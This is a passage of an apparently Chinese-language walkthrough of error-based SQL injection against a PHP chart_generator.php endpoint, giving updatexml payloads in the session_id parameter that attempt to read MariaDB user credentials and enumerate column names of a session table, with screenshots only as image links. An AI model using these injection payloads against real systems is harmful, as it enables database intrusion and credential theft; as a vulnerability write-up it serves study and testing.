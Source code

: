       ![](/style/image/2024-01-30-23-09-52.png)
      ![](/style/image/2024-01-30-23-13-08.png)

  4. 获取`MariaDB`账号和密码:

      ```
      /include/chart_generator.php?session_id=1' and (updatexml (1, concat(0x7e, (select (select authentication string from MariaDB.user limit 1 )), 0x7e),1))--+      
      ```
      ![](/style/image/2024-01-30-23-17-05.png)

    + 权限不够，无法获取

  5. 获取字段名：
      
      ```
      /include/chart_generator.php?session_id=1' and (updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where TABLE_SCHEMA=database() and table_name='tsessions_php')),3))--+        
      ```
      ![](/style/image/2024-01-31-01-06-31.png)

